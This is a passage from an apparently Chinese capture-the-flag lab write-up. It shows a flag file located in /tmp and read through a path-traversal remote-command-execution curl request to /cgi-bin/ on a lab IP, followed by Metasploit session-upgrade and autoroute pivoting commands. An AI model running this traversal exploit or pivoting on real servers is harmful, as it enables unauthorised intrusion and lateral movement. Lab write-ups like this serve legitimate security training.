 ```bash
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.3/tty/ttyS3/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.1/tty/ttyS1/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.2/tty/ttyS2/flags
/sys/devices/platform/serial8250/serial8250:0/serial8250:0.0/tty/ttyS0/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags
/tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}
/proc/sys/net/ipv4/fib_notify_on_flag_change
/proc/sys/net/ipv6/fib_notify_on_flag_change
/proc/kpageflags
/usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/ss_flags.ph
/usr/lib/x86_64-linux-gnu/perl/5.32.1/bits/waitflags.ph
```

**🎯 找到了！flag文件在 `/tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}`**

###### 3.4.2 Flag内容读取

```bash
# 读取flag文件内容
curl "http://10.37.133.3:42286/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; cat /tmp/flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}"
```

**Flag获取成功**: `flag-{bmha8de6a45-2ae2-4615-97ff-1af1edd5afcf}`

### 步骤六 发现终点靶标

同样，ip a查看第二层靶机的网卡，发现双网卡
![](./pics/发现双网卡.png)
升级shell
`sessions -u <>`
进入新启动的shell
`sessions -i <>`
设置pivot路由
`run autoroute -s 10,10,10,0/24`
![](./pics/设置pivot路由.png)<br>